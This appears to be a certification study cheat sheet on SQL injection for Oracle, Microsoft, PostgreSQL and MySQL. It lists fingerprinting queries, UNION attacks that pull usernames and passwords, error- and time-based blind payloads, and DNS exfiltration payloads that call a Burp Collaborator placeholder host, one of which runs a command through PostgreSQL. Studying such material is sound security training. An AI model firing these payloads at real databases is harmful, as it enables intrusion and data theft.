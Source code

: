##### PortSwigger BurpSuite Certification Summary
# SQL Injection
### Determine the Database
```
SELECT @@version # fails. Then you know it is not MS SQL or MySQL.
SELECT version() # fails. You know it is not PostGres
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;# Succeeds! You know it is oracle.
```
Oracle always requires a `FROM` statement with every `SELECT`. To query arbitrary data (such as strings), the `dual` table should be used, e.g.:
```
SELECT 'A','B' FROM dual
```

### String Concatenation
In order to get multiple results in one column.
```
Oracle,PostgreSQL				'foo'||'bar'
Microsoft					'foo'+'bar'
MySQL						'foo' 'bar' or CONCAT('foo','bar')
```

### Comments
```
Oracle  					--comment
Microsoft,PostgreSQL				--comment or /*comment*/
MySQL						#comment or -- comment or /*comment*/				
```

### Substring
Syntax: SUBSTRING(string, start_position, length)
```
Oracle						SUBSTR('foobar',4,2)
All others					SUBSTRING('foobar',4,2)
```

### Length
All databases have a function for string length: `LENGTH()`

### List Tables & Columns
```
Oracle 				 		SELECT * FROM all_tables
						SELECT * FROM all_tab_columns WHERE table_name=''

All others		  			SELECT * FROM information_schema.tables
						SELECT * FROM information_schema.columns WHERE table_name = ''
```

### UNION Attack
Determine the number of columns:
```
UNION SELECT NULL
...
UNION SELECT NULL, ..., NULL
```
or
```
ODER BY 1
...
ORDER BY 10
```

Check which columns are formatted as string by replacing any `NULL` with `'A'`.

Use UNION to query information from other tables:
```
UNION SELECT username, password FROM users
```

### Conditional Errors
```
Oracle 		SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (1=1) THEN cast(1/0 as text) ELSE NULL END
MySQL		SELECT IF(1=1, SELECT table_name FROM information_schema.tables, 'a')
```

MySQL IF() syntax: SELECT IF(condition, case_true, case_false)

### Time Delays
Sleep for 10 seconds.
```
Oracle	  	dbms_pipe.receive_message(('a'),10)
Microsoft  	WAITFOR DELAY '0:0:10'
PostgreSQL  	SELECT pg_sleep(10)
MySQL		SELECT sleep(10)
```
In Oracle, a concatenation of strings is required for a conditional time delay:

`SELECT CASE WHEN (1=1) THEN
'A'||dbms_pipe.receive_message(('A'),10) ELSE NULL END FROM dual`

### DNS Lookup
Oracle
```
SELECT extractvalue(xmltype(
	'<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM
	"http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l')
FROM dual
```
PostgreSQL
```
copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
```
MySQL
```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

Prepending any query result to the subdomain, separated with a `.`, allows for sending information to the adversary.

Note:
* The Oracle statement works only on unpatched versions.
* The MySQL statement is only working on Windows machines
